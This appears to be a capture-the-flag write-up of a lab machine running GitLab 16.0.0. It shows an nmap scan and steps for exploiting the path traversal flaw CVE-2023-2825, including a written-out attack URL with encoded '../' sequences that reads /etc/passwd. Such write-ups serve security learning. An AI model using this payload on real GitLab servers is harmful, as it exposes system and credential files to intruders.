 # Writeup

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
sudo nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69

# Output
# Nmap 7.94SVN scan initiated Mon Dec 16 11:33:36 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69
Nmap scan report for 10.129.229.69
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f3:e8:cf:2e:39:5f:c9:c8:f1:e8:97:a8:04:6a:28:c2 (RSA)
|   256 9b:8a:64:29:f0:b8:c3:c0:4c:55:f0:78:27:ce:c5:86 (ECDSA)
|_  256 c8:2b:18:14:bd:77:2b:0c:68:f6:c3:cb:92:46:34:66 (ED25519)
80/tcp   open  http    nginx
|_http-favicon: Unknown favicon MD5: 66F9A1C3F2CFD0DF1B570990E86D3095
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.229.69/users/sign_in
8060/tcp open  http    nginx 1.20.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.20.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 16 11:34:12 2024 -- 1 IP address (1 host up) scanned in 36.71 seconds
```

# HTTP (Port 80)

Port 80 on this box is hosting GitLab, I create an account so I can access more of the application before browsing the site. 

After registering an account, the help page displays the current version installed on this machine: v16.0.0.

![image](https://github.com/user-attachments/assets/a7ac5104-a772-46bb-9880-4d69b2bd56e8)

This version has a prominant vulnerability: **[CVE-2023-2825](https://www.getastra.com/blog/vulnerability/cve-2023-2825/#:~:text=About%20CVE%2D2023%2D2825,and%20Enterprise%20Edition%20version%2016.0.)**

This vulnerability is a Path Traversal vulnerability, it requirews you to create 10 nested group and then create a propject in the final group. In this group you can raise an issue with an attachment, the response to this request will give you the file path for the upload, this is where the path traversal vulnerability lies. 

The followin 2 guides were used to exploit this vulnerability:
[Juniper Guide](https://blogs.juniper.net/en-us/threat-research/cve-2023-2825-gitlab-arbitrary-path-traversal-vulnerability)
[Occamsec Guide](https://occamsec.com/exploit-for-cve-2023-2825/)

A minimum of 10 groups are needed, this is the number needed to reach the base directory, this is because on a standard Gitlab install, file attachments are uploaded to `/var/opt/gitlab/gitlab-rails/uploads/@hashed/<a>/<b>/<secret>/<secret>/<file>`. I'm assuming there is a rule in the code allowing you to traverse the number of groups back. The 10 groups and project can be seen below:

![image](https://github.com/user-attachments/assets/b3b04139-ff2d-4887-9935-b53aace61a44)

From here I can upload anydocument to an issue on that project and see in the response the file path.

```text
"note":"[testDoc.txt](/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt)
```

I can append this to the URL to view the file, the full URL in this example would be:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt
```

It is this URL I can exploit, by using path traversal to access files instead of test Doc.txt. The rule in this exploit is to traverse the number of groups + 1, in this case that will be 11. Forward slashes must also be URL encoded. The full attack URL ends up:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

This traverses to the base directory and accesses /etc/passwd:

![image](https://github.com/user-attachments/assets/02fad883-6a92-4b18-958f-3d16d518b900)


